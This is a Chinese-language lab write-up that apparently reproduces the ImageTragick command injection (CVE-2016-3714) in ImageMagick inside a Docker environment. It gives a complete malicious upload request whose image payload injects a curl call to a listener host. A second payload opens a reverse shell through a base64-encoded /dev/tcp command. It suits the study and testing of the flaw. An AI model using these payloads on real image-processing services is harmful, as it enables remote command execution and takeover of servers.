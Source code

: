 # Imagetragick 命令执行漏洞 CVE-2016–3714

## 漏洞描述

ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。但近来有研究者发现，当用户传入一个包含『畸形内容』的图片的时候，就有可能触发命令注入漏洞。

参考链接：

- [https://imagetragick.com](https://imagetragick.com/)
- https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html
- https://github.com/ImageTragick/PoCs

## 环境搭建

执行如下命令启动一个包含了Imagemagick 6.9.2-10的PHP服务器：

```
docker-compose up -d
```

## 漏洞复现

访问`http://your-ip:8080/`即可查看到一个上传组件。

发送如下数据包：

```
POST / HTTP/1.1
Host: your-ip:8080
Content-Length: 321
Origin: http://your-ip:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGqvKmZLh7bp9gMc1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8


------WebKitFormBoundaryGqvKmZLh7bp9gMc1
Content-Disposition: form-data; name="file_upload"; filename="avatar.jpg"
Content-Type: image/jpeg

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.your-domain.cn:2333)'
pop graphic-context
------WebKitFormBoundaryGqvKmZLh7bp9gMc1--
```

![image-20220224112947475](./images/202202241129569.png)

`www.your-domain.cn`监听2333端口。可见，2333端口已经接收到http请求，说明curl命令执行成功：

![image-20220224113125611](./images/202202241131681.png)

反弹shell（只能使用`/bin/bash`反弹，不能使用`bash`反弹）：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjQzLjIzNy42MS8yMzMzIDA+JjEK | base64 -d | bash`"||id " )'
pop graphic-context
```

监听2333端口，接收反弹shell：

![image-20220224114827774](./images/202202241148867.png)

